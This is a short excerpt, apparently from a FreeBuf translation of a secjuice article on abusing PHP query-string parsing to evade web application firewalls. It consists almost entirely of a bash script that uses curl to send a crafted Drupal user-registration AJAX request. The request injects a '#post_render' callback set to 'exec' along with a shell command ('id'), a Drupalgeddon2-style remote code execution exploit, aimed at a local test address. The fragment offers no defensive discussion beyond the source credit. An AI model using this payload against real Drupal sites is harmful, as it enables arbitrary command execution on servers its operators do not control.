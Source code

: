 ```
#!/bin/bash
URL="/user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax"
QSTRING="form%5bid=user_register_form&_drupal_ajax=1&mail[#post%5frender][]=exec&mail[#type]=markup&mail[#markup]="
COMMAND="id"
curl -v -d "${QSTRING}${COMMAND}" "http://172.17.0.1:8080$URL"
```

***参考来源：[secjuice](https://www.secjuice.com/abusing-php-query-string-parser-bypass-ids-ips-waf/)，FB小编周大涛编译，转载请注明来自FreeBuf.COM**